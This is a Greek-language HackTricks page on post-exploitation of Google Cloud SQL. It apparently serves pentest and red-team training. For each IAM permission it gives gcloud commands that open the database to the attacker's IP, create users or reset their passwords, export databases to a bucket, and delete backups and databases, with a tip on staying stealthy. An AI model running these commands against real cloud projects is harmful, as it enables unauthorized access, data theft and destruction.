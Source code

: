 # GCP - Cloud SQL Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cloud SQL

Για περισσότερες πληροφορίες σχετικά με το Cloud SQL, ελέγξτε:

{% content-ref url="../gcp-services/gcp-cloud-sql-enum.md" %}
[gcp-cloud-sql-enum.md](../gcp-services/gcp-cloud-sql-enum.md)
{% endcontent-ref %}

### `cloudsql.instances.update`, ( `cloudsql.instances.get`)

Για να συνδεθείτε στις βάσεις δεδομένων, **χρειάζεστε μόνο πρόσβαση στην θύρα της βάσης δεδομένων** και να γνωρίζετε το **όνομα χρήστη** και τον **κωδικό πρόσβασης**, δεν υπάρχουν απαιτήσεις IAM. Ένας εύκολος τρόπος για να αποκτήσετε πρόσβαση, υποθέτοντας ότι η βάση δεδομένων έχει δημόσια διεύθυνση IP, είναι να ενημερώσετε τα επιτρεπόμενα δίκτυα και **να επιτρέψετε τη δική σας διεύθυνση IP να έχει πρόσβαση σε αυτήν**.
```bash
# Use --assign-ip to make the database get a public IPv4
gcloud sql instances patch $INSTANCE_NAME \
--authorized-networks "$(curl ifconfig.me)" \
--assign-ip \
--quiet

mysql -h <ip_db> # If mysql

# With cloudsql.instances.get you can use gcloud directly
gcloud sql connect mysql --user=root --quiet
```
Είναι επίσης δυνατό να χρησιμοποιήσετε **`--no-backup`** για να **διαταράξετε τα αντίγραφα ασφαλείας** της βάσης δεδομένων.

Δεδομένου ότι αυτές είναι οι απαιτήσεις, δεν είμαι εντελώς σίγουρος ποια είναι τα δικαιώματα **`cloudsql.instances.connect`** και **`cloudsql.instances.login`**. Αν το ξέρετε, στείλτε μια PR!

### `cloudsql.users.list`

Λάβετε μια **λίστα με όλους τους χρήστες** της βάσης δεδομένων:
```bash
gcloud sql users list --instance <intance-name>
```
### `cloudsql.users.create`

Αυτή η άδεια επιτρέπει να **δημιουργηθεί ένας νέος χρήστης μέσα** στη βάση δεδομένων:
```bash
gcloud sql users create <username> --instance <instance-name> --password <password>
```
### `cloudsql.users.update`

Αυτή η άδεια επιτρέπει να **ενημερώσετε τον χρήστη** μέσα στη βάση δεδομένων. Για παράδειγμα, μπορείτε να αλλάξετε τον κωδικό πρόσβασής του:

{% code overflow="wrap" %}
```bash
gcloud sql users set-password <username> --instance <instance-name> --password <password>
```
{% endcode %}

### `cloudsql.instances.restoreBackup`, `cloudsql.backupRuns.get`

Τα αντίγραφα ασφαλείας μπορεί να περιέχουν **παλιές ευαίσθητες πληροφορίες**, οπότε είναι ενδιαφέρον να τα ελέγξετε.\
**Ανακτήστε ένα αντίγραφο ασφαλείας** μέσα σε μια βάση δεδομένων:
```bash
gcloud sql backups restore <backup-id> --restore-instance <instance-id>
```
Για να το κάνετε με πιο διακριτικό τρόπο, συνιστάται να δημιουργήσετε μια νέα SQL instance και να ανακτήσετε τα δεδομένα εκεί αντί για τις τρέχουσες βάσεις δεδομένων.

### `cloudsql.backupRuns.delete`

Αυτή η άδεια επιτρέπει τη διαγραφή αντιγράφων ασφαλείας:
```bash
gcloud sql backups delete <backup-id> --instance <instance-id>
```
### `cloudsql.instances.export`, `storage.objects.create`

**Εξαγωγή μιας βάσης δεδομένων** σε ένα Cloud Storage Bucket ώστε να μπορείτε να την αποκτήσετε από εκεί:
```bash
# Export sql format, it could also be csv and bak
gcloud sql export sql <instance-id> <gs://bucketName/fileName> --database <db>
```
### `cloudsql.instances.import`, `storage.objects.get`

**Εισαγωγή μιας βάσης δεδομένων** (επικαλύπτει) από ένα Cloud Storage Bucket:
```bash
# Import format SQL, you could also import formats bak and csv
gcloud sql import sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.databases.delete`

Διαγράψτε μια βάση δεδομένων από την db instance:
```bash
gcloud sql databases delete <db-name> --instance <instance-id>
```
{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
